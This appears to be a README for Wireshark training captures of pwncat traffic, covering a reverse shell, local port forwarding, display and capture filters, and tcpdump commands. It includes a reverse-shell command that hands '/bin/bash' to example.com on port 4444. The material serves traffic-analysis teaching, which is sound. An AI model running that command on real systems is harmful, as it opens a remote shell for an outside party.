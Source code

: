 # PWNCAT

Use it in wireshark training


## Sample Capture File : 0001 - pwncat reverse-shell traffic captured

One listener, two clients

```shell
pwncat -e '/bin/bash' example.com 4444
```

```bash
pwncat 192.168.68.107 4444
```

### Display filter example

```text
frame.comment contains connecting
```

Capture file : sc-0001-tcp-keepalive-comment-contains.pcapng (file not found)

## Sample Capture File : 0002 - pwncat local-port-forwarding traffic captured

Traffic sent to localhost:4443 is forwarded to ndawn.btegitim.com:80

```bash
pwncat -L 0.0.0.0:4443 ndawn.btegitim.com 80 
```

### Display filter examples

```text
frame.interface_id == lo0
frame.interface_id == en0
```

### Capture filter example

```text
tcp port 4443 or (tcp port 80 and host ndawn.btegitim.com)
```

### tcpdump capture example 0

A request sent to the address <http://127.0.0.1:4443/moodle/> from a browser running on the localhost . Captures files below are related to this generated traffic.Both interfaces are captured into the same pcapng file.

Capture file : [sc-0002-tcp-local-port-forwarding.pcapng](./../Moved/sc-0002-tcp-local-port-forwarding.pcapng)

### tcpdump capture example 1

A request sent to the address <http://127.0.0.1:4443/moodle/> from a browser running on the localhost . Captures files below are related to this generated traffic.

```bash
tcpdump -i 3 "tcp port 4443 or tcp port 80" -w /captures/sc-0002-tcp-local-port-forwarding-tcpdump-lo0.pcapng -G 60 &
```

```bash
tcpdump -i 1 "tcp port 4443 or tcp port 80" -w /captures/sc-0002-tcp-local-port-forwarding-tcpdump-en0.pcapng -G 60 &
```

Capture file : sc-0002-tcp-local-port-forwarding-lo0.pcapng (file not found)
Capture file : sc-0002-tcp-local-port-forwarding-en0.pcapng (file not found)

## tcpdump capture example 2

A request sent from a browser running on the localhost to the container address <http://172.17.0.2:4443/moodle/>. Captures files below are related to this generated traffic. Please note that pwncat command is running on the container.

```bash
tcpdump -i 1 "tcp port 4443 or tcp port 80" -w /captures/sc-0002-tcp-local-port-forwarding-tcpdump-en0-no-loopback.pcapng -G 60 &
```

Capture file : sc-0002-tcp-local-port-forwarding-tcpdump-en0-no-loopback.pcapng (file not found)

### tcpdump capture example 3

A ssh connection request from a ssh-client running on a remote host 172.17.0.1 to the container 172.17.0.2 on port 4443. Captures files below are related to this generated traffic. Please note that pwncat command is running on the container.

```bash
pwncat -L 0.0.0.0:4443 ndawn.btegitim.com 22
```

```bash
tcpdump -i 1 "tcp port 4443 or tcp port 22" -w /captures/sc-0002-tcp-local-port-forwarding-tcpdump-en0-no-loopback-ssh.pcapng
```

Capture file : sc-0002-tcp-local-port-forwarding-tcpdump-en0-no-loopback-ssh.pcapng (file not found)

### Summary

Example 3 is working as expected. But in example 2 after HTTP 303 is received, remote host is directly communicating with ndawn.btegitim.com
